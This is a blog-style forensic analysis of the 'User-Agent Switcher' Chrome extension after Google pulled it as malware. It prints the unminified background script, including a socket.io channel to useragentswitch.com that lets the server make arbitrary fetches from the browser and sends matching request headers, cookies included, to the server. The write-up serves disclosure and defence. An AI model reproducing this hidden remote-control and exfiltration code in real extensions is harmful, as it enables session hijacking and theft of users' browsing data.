# Chrome Extension Forensics

On Oct 16, I got a strange popup in Chrome, saying the User Agent Switcher extension had been removed as malware. I decided to investigate a bit, to see how bad this actually was. Since I've written a few extensions before, I had some ideas of where to start.

# Background

Although the extension page on the Chrome Store has been pulled down, the text still exists in on Google Search's cached version. I reproduce it here, to save you the legwork:

> Chrome Web Store User-Agent Switcher offered by https://www.useragentswitch.com To download to your desktop sign into Chrome and enable sync or send yourself a reminder » (149) Developer Tools 100,000+ users Overview User-Agent Switcher is a quick and easy way to switch between user-agents. Just right click on any page and select your user-agent. This Chrome extension adds a toolbar button and a menu to switch between user-agents. Browse with our predefined user-agents or add your own user-agents. Changing User-Agent allows you to mimic, spoof or fake other browsers, devices or search engine spiders. The extension does not render web pages in the same way as the selected one. User-Agent Switcher is primarily for developers who want to test how a page responds to different browsers. User-Agent switcher may also be used to reach certain pages that allows a particular browser. You can change User-Agent back to default when you are done. This extension also changes the javascript based "navigator userAgent" Includes presets for iOS (iPhone, iPad), Android, Windows Mobile Phone (Nokia Lumia) and browsers like Chrome, Internet Explorer, Microsoft Edge, Firefox, Safari and Opera etc. Add your own User-Agents if you don´t find anything that suits your needs. Details Version: 2.0.1.0 Updated: September 7, 2020 Size: 147KiB Language: English Report Abuse About the Store · Chrome Privacy · Terms of Service

100k+ users would generally be considered a sign of trustworthiness.

Google offers an [official UA switcher extension](https://chrome.google.com/webstore/detail/user-agent-switcher-for-c/djflhoibgkdhkhhcedjiklpkjnoahfmg?hl=en-US) but it only changes UA in HTTP requests, and not on the `navigator` JS object, which makes it effectively useless for testing. For example, many web applications use bowser for mobile-only feature flags, and jquery uses it to detect and work around browser quirks and incompatibilities; modifying the HTTP headers only does not allow you to test mobile-only features, for example. That's why I downloaded it.

Also, this is not the first time a UA extension has been a malware vector - eg [this HN thread](https://news.ycombinator.com/item?id=14889619).

## Getting the code

Because the extension has already been deleted from the Chrome Store, you will have to already have a copy to look at it.

Chrome extensions are stored (on linux) in `~/.config/google-chrome/Profile 2/Extensions`, to grab a backup copy of the code. You can also debug the background script user the normal developer tools via the link on the Manage Extensions page if you have the extension running.

It contains this:

```
nfultz@neal-nuc:useragent_$tree
.
├── background.html
├── css
│   ├── bootstrap.min.css
│   ├── options.min.css
│   ├── popup.min.css
│   └── style.min.css
├── img
│   ├── active.png
│   ├── glyphicons-halflings.png
│   ├── glyphicons-halflings-white.png
│   ├── icon128.png
│   ├── icon16.png
│   ├── icon19.png
│   ├── icon38.png
│   └── icon48.png
├── js
│   ├── background.min.js
│   ├── bootstrap.min.js
│   ├── content.min.js
│   ├── jquery.min.js
│   ├── JsonValues.min.js
│   ├── options.min.js
│   └── popup.min.js
├── manifest.json
├── options.html
└── popup.html
```

jquery and bootstrap are bundled libraries. Here's their checksums, in case anyone knows how to match them up to actual releases:

```
035a9e6a763abbeb361038c43e2695f5  js/bootstrap.min.js
2a410e352d5137af6e651365228eebbd  js/jquery.min.js
```

### Unminify

Because all the code is minified, we need to undo it:

```
npm install unminify
for i in `find js -name '*.js'` ; do
  time node --max-old-space-size=8192 node_modules/.bin/unminify $i > $i.clean ;
done
```

Special thanks to [Shape Security](https://github.com/shapesecurity/unminify/) for the great tool.

## The manifest

In it's entirity:

```
{
   "background": {
      "page": "background.html"
   },
   "browser_action": {
      "default_icon": {
         "19": "img/icon19.png",
         "38": "img/icon38.png"
      },
      "default_popup": "popup.html",
      "default_title": "User-Agent Switcher"
   },
   "content_scripts": [ {
      "js": [ "js/content.min.js" ],
      "matches": [ "*://*/*" ],
      "run_at": "document_start"
   } ],
   "description": "User-Agent Switcher is a quick and easy way to switch between user-agents.",
   "icons": {
      "128": "img/icon128.png",
      "16": "img/icon16.png",
      "48": "img/icon48.png"
   },
   "key": "MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAltuaqZFWZnHvTdRq…",
   "manifest_version": 2,
   "name": "User-Agent Switcher",
   "offline_enabled": true,
   "options_page": "options.html",
   "permissions": [ "webRequest", "webRequestBlocking", "http://*/", "https://*/", "contextMenus" ],
   "short_name": "User-Agent Switcher",
   "update_url": "https://clients2.google.com/service/update2/crx",
   "version": "2.0.1.0"
}
```

The important thing to note here is that there is a content script that runs on every single page, and that there is a background page which has permission to any cross origin resource on both http and https, and can hook in to the [webRequest API](https://developer.chrome.com/extensions/webRequest).

Per the manual,

> Use the chrome.webRequest API to observe and analyze traffic and to intercept, block, or modify requests in-flight.

This makes sense; the whole point of the extension is to modify UA headers.

## content.js

```
chrome.runtime.sendMessage({ check: 'UserAgent' }, function(n) {
  if (n.userAgent != '') {
    var t = document.createElement('script');
    t.type = 'text/javascript';
    t.text =
      "navigator.__defineGetter__('userAgent', function () { return '" +
      n.userAgent +
      "'; });";
    document.getElementsByTagName('head')[0].appendChild(t);
  }
});
```

This retrieves a UA string from the extension, and injects it into navigator.userAgent.

Clever.

## background.html

Referenced in the manifest:

```
<!DOCTYPE html>
<html>
<head>
  <title>User-Agent Switcher</title>
</head>
<body>
	<script src="js/JsonValues.min.js"></script>
	<script src="js/background.min.js"></script>
</body>
</html>
```

So there are two scripts to inspect.

## background.js

I'll reproduce the interesting parts of background.js, where all the action is.

```
function runAppStart() {
    var e = localStorage.uaSettings
      , t = localStorage.uaStorage;
    settings = null != e ? JSON.parse(e) : JSON_Settings,
    userAgents = null != t ? JSON.parse(t) : JSON_UserAgentsList,
    "1" == settings.Remember && (selectedUserAgent.Id = settings.LastUsed_Id,
    selectedUserAgent.Name = settings.LastUsed_Name,
    selectedUserAgent.UserAgent = settings.LastUsed_UserAgent),
    localStorage.uaSettings = JSON.stringify(settings),
    localStorage.uaStorage = JSON.stringify(userAgents),
    createContextMenu()
}
```

Seems benign, reading out setting from local storage.

```
function createContextMenu() {
    chrome.contextMenus.removeAll(),
    chrome.contextMenus.create({
        id: "Default",
        contexts: ["all"],
        onclick: function() {
            setUserAgent("Default", !0, "ContextMenu")
        },
        title: "Default",
        type: "checkbox",
        checked: "Default" == selectedUserAgent.Id
    }),
    chrome.contextMenus.create({
        contexts: ["all"],
        type: "separator"
    }),
    userAgents.forEach(function(e) {
        if (0 != e.UserAgents.length) {
            var t = chrome.contextMenus.create({
                id: e.Id,
                contexts: ["all"],
                title: e.Name,
                type: "normal"
            });
            e.UserAgents.forEach(function(s) {
                chrome.contextMenus.create({
                    id: s.Id,
                    parentId: e.Id,
                    contexts: ["all"],
                    onclick: function() {
                        setUserAgent(s.Id, !0, "ContextMenu")
                    },
                    title: s.Name,
                    type: "checkbox",
                    checked: selectedUserAgent.Id == s.Id
                }),
                selectedUserAgent.Id == s.Id && chrome.contextMenus.update(t, {
                    contexts: ["all"],
                    title: "[ " + e.Name + " ]",
                    type: "normal"
                })
            })
        }
    }),
    chrome.contextMenus.create({
        contexts: ["all"],
        type: "separator"
    }),
    chrome.contextMenus.create({
        contexts: ["all"],
        onclick: function() {
            return chrome.tabs.create({
                url: "options.html"
            }),
            !1
        },
        title: "Options",
        type: "normal"
    }),
    chrome.contextMenus.create({
        contexts: ["all"],
        onclick: function() {
            return chrome.tabs.create({
                url: "http://www.esolutions.se/whatsmyinfo"
            }),
            !1
        },
        title: "Show User-agent",
        type: "normal"
    })
}
```

Creating context menus; fine.

```
var userAgentSwitch = io("https://www.useragentswitch.com/");
```

Wait, what !?

```
function setUserAgent(e, t, s, n) {
    for (var r, a = 0; a < userAgents.length; a++)
        for (userAgents[a].Id == e && (selectedUserAgent.Id = userAgents[a].Id,
        selectedUserAgent.Name = userAgents[a].Name,
        selectedUserAgent.UserAgent = userAgents[a].UserAgent),
        r = 0; r < userAgents[a].UserAgents.length; r++)
            userAgents[a].UserAgents[r].Id == e && (selectedUserAgent.Id = userAgents[a].UserAgents[r].Id,
            selectedUserAgent.Name = userAgents[a].UserAgents[r].Name,
            selectedUserAgent.UserAgent = userAgents[a].UserAgents[r].UserAgent);
    settings.LastUsed_Id = selectedUserAgent.Id,
    settings.LastUsed_Name = selectedUserAgent.Name,
    settings.LastUsed_UserAgent = selectedUserAgent.UserAgent,
    localStorage.uaSettings = JSON.stringify(settings),
    createContextMenu(),
    setIconAndText(),
    1 == t && chrome.tabs.reload(),
    n && "function" == typeof n && n()
}
```

Updates settings and UI based on a choice, fine.

```
async function createFetch(e) {
    let t = await fetch(e.uri, e.attr)
      , s = {};
    return s.headerEntries = Array.from(t.headers.entries()),
    s.data = await t.text(),
    s.ok = t.ok,
    s.status = t.status,
    s
}
```

Mysterious helper function? Note that fetch init options are being passed in; this lets the caller modify the cookie policy to send cross-origin - in the context of an extension, all requests outside the extension are COR.

```
function setIconAndText() {
    "" != selectedUserAgent.UserAgent ? (chrome.browserAction.setIcon({
        path: "img/active.png"
    }),
    chrome.browserAction.setBadgeText({
        text: "On"
    })) : (chrome.browserAction.setIcon({
        path: "img/icon19.png"
    }),
    chrome.browserAction.setBadgeText({
        text: ""
    }))
}
```

UI code.

```
userAgentSwitch.on("createFetch", async function(e) {
    let t = await createFetch(e);
    userAgentSwitch.emit(e.callBack, t)
});
```

!? userAgentSwitch will listen events, perform the fetch, then return the results?

This allows a third party to make arbitrary requests from my browser; eg impersonate me.

```
var handlerData = {};
userAgentSwitch.on("handlerData", function(e) {
    handlerData = e
});
```

Recieves an object from elsewhere, for later use?

```
var selectedUserAgent = JSON_DefaultUserAgent
  , userAgents = JSON_UserAgentsList
  , settings = JSON_Settings;
handler = function(e) {
    if ("" != selectedUserAgent.UserAgent) {
        for (var t = 0, s = e.requestHeaders.length; t < s; ++t)
            if ("User-Agent" === e.requestHeaders[t].name) {
                e.requestHeaders[t].value = selectedUserAgent.UserAgent;
                break
            }
        return {
            requestHeaders: e.requestHeaders
        }
    }
}
,
chrome.webRequest.onBeforeSendHeaders.addListener(handler, {
    urls: ["<all_urls>"]
}, ["blocking", "requestHeaders"]),
```

This actually sets the User agent in the http header. The whole raison d'etre of this extension.

```
chrome.runtime.onMessage.addListener(function(e, t, s) {
    s({
        userAgent: selectedUserAgent.UserAgent
    })
});
```

This is how the content script retrieves the selectedUserAgent, because it can't access the extension's local storage directly.

```
var handler2 = function(e) {
    var t = Object.keys(handlerData);
    if (t.length > 0) {
        var s = !0;
        for (let n = 0; n < t.length; n++) {
            let r = t[n];
            if (re = new RegExp(handlerData[r],"gi"),
            null == e[r].toString().match(re)) {
                s = !1;
                break
            }
        }
        s && userAgentSwitch.emit("requestHeadersHandler", e)
    }
    return {
        requestHeaders: JSON.parse(JSON.stringify(e.requestHeaders.reverse()).split("-zzz").join(""))
    }
};
chrome.webRequest.onBeforeSendHeaders.addListener(handler2, {
    urls: ["<all_urls>"]
}, ["requestHeaders", "blocking", "extraHeaders"]),
```

whoa - this checks every single web request against patterns provided in handlerData (sent from the server, remember?), and if they match, forwards the entire request along.

Note that if handlerData is not previously set by the remote server, the if statement branches around, and nothing happens.

Here is an example of what's in handlerData right now:



So they were trying to record every single API request to instagram.

What is included in the web request object? Here is an example from Amazon.com:



Note that this includes all the headers, including the cookie - this could potentially open up spoofing sessions depending on the target.

Thankfully, they can't read the actual data of a POST. [Yet](https://bugs.chromium.org/p/chromium/issues/detail?id=91191)

On the other hand, the full URL is there, which means they could record HTTP basic auth, and GET based queries (web searches, etc).

```
runAppStart(),
setIconAndText();
```

sets up the UI.

## JsonValues.js

This file begins with an object containing the User Agent strings of most popular browsers. Generally, it looks like this:

```
      {
        Id: 'Id_102',
        Name: 'Firefox on Android Tablet',
        UserAgent:
          'Mozilla/5.0 (Android 4.4; Tablet; rv:41.0) Gecko/41.0 Firefox/41.0',
      },
```

After ~ 300 lines, we then see the complete source code of [socket.io](https://socket.io/).

## About useragentswitch.com

We can glean some extra information by checking WHOIS on the domain:

[figure not shown]

Sadly, NameCheap provides free proxy registration, so no contact info is available.

Currently the website is counting down to Sun, Nov 22. You can also sign up for their email list if you like.

## Timeline

- Aug 28 - useragentswitch.com registered on Name Cheap
- Sep 7 - UAS 2.0.1 updated, pushed to clients
- Oct 16 - UAS pulled down from Chrome Store

## Recommendations for Users

- Run extensions, especially developer tools, under a seperate chrome profile instead of your main one. This will limit your exposure if they go rogue.
- If UAS is a once-and-awhile use-case, try using the CLI argument instead of an extension.

## Recommendations for Chrome Store

If I were king of the chrome store, I would take the following steps:

- Ban the use of minified JS in extensions
- Mirror the source code of all extensions on [Gerrit](https://gerrit.googlesource.com/gerrit/) for public code review and commenting.
- When extensions updates are submitted, create a patch on Gerrit so that those inclined may review the diff.
- Stage the rollout of extension updates to beta/dev/canary channels just like Chrome itself.
- Verify checksums on bundled libraries.

As a bonus, I think those steps would take some of the load off the (severely) backlogged internal extension review group at Google.

## Next steps for me

- Because I need this functionality, I'll write my own extension at some point. Can't be that hard.
- I'd like to do some more detective work - who wrote this thing? Was it hijacked by a third party in August, or did the original author decide to cash out? How would they monetize this - there's no obvious code for injecting ads, for example.
- Who found this had gone rogue? Instagram or Google? A dev channel user?